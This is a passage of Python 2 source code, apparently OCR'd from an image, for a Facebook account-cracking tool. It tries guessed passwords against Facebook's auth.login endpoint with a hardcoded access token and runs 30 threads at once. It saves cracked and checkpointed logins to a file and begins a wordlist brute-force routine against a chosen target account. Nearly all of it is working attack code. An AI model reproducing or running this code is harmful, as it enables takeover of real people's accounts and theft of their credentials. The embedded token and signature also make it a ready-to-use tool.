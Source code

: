 														if 'www.facebook.com' in q["error_msg"]:
															print '\x1b[1;36;40m[After24Hr] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass6 + ' 👽 ' + b['name']
															cek = open("out/CP.txt", "a")
															cek.write(user+"|"+pass6+"\n")
															cek.close()
															cekpoint.append(user+pass6)
														else:
															pass7 = 'Afghanistan'
															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
															q = json.load(data)
															if 'access_token' in q:
																print '\033[1;97m[Login Now] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass7 + ' 👽 ' + b['name']
																oks.append(user+pass7)
															else:
																if 'www.facebook.com' in q["error_msg"]:
																	print '\x1b[1;36;40m[After24Hr] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass7 + ' 👽 ' + b['name']
																	cek = open("out/CP.txt", "a")
																	cek.write(user+"|"+pass7+"\n")
																	cek.close()
																	cekpoint.append(user+pass7)
		except:																		
			pass
		
	p = ThreadPool(30)
	p.map(main, id) 
	
	print '\033[1;31;40m[✓] Process Has Been Completed\033[1;97m....'
	print "\033[1;32;40m[+] Total OK/\033[1;97mCP \033[1;97m: \033[1;97m"+str(len(oks))+"\033[1;31;40m/\033[1;36;40m"+str(len(cekpoint))
	print '\033[1;34;40m[+] CP File Has Been Saved : save/cp.txt'
	print """
\033[1;31;40m ●════════════════════════◄►════════════════════════●
           """
	raw_input("\n\033[1;97m[\033[1;97mExit\033[1;97m]")
	super()

def brute():
    os.system('clear')
    try:
        toket = open('login.txt', 'r').read()
    except IOError:
        print '\033[1;97m[!] Token not found'
        os.system('rm -rf login.txt')
        time.sleep(0.5)
        login()
    else:
        os.system('clear')
        print logo
        print '\033[1;31;40m ●════════════════════════◄►════════════════════════●'
        try:
            email = raw_input('\033[1;97m[+] \033[1;97mID\033[1;97m/\033[1;97mEmail \033[1;97mTarget \033[1;97m:\033[1;97m ')
            passw = raw_input('\033[1;97m[+] \033[1;97mWordlist \033[1;97mext(list.txt) \033[1;97m: \033[1;97m')
            total = open(passw, 'r')
            total = total.readlines()
            print '\033[1;31;40m ●════════════════════════◄►════════════════════════●'
            print '\033[1;97m[\033[1;97m\xe2\x9c\x93\033[1;97m] \033[1;97mTarget \033[1;97m:\033[1;97m ' + email
            print '\033[1;97m[+] \033[1;97mTotal\033[1;97m ' + str(len(total)) + ' \033[1;97mPassword'